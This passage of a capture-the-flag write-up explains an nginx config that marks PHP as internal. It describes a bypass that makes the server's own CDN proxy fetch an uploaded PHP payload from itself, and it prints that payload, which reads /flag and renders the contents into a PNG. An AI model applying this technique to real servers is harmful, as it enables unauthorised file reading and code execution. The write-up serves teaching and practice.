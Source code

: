 ```conf
server {
    listen 8080 default_server;
    listen [::]:8080 default_server;
    root /var/www/html;
    server_name _;

    location / {
        index index.php;
    }

    location ~ \.php$ {
        internal;
        include fastcgi_params;
        fastcgi_intercept_errors on;
        fastcgi_param  SCRIPT_FILENAME $document_root$fastcgi_script_name;
        fastcgi_pass unix:/run/php/php7.4-fpm.sock;
    }

    location /cdn/ {
        allow 127.0.0.1/32;
        deny all;
        proxy_pass http://cdn;
    }

}
```

What does that `internal;` line mean? Googling around brings us to the [NGINX docs](https://nginx.org/en/docs/http/ngx_http_core_module.html#internal). which state

![8844b5bf3a175f510f9f235c92de709e.png](../../resources/9a48299c3a8d428387a130f58f3e3180.png)

So that's why we're getting a 404 when we try to trigger the exploit - only pages redirected from `/` or the cdn can run PHP code. All other requests will end in a cryptic but security-preserving 404!

...but what if we used the CDN to hack the CDN? Since the CDN itself makes a web request to grab the image, we could just direct the CDN to grab the payload image from itself, thereby tricking the server into running PHP from an "internal" address. All we have to do is to make our exploit return an image...

```php
<?php
header("Content-Type: image/png");
$flag = file_get_contents("/flag");
$img = imagecreate(512, 512);
$bg = imagecolorallocate($img, 0, 0, 0);
$fg = imagecolorallocate($img, 255, 255, 255);
imagerectangle($img, 0, 0, 512, 512, $bg);
imagestring($img, 5, 100, 100, $flag, $fg);
imagepng($img);
imagedestroy($img);
?>
```
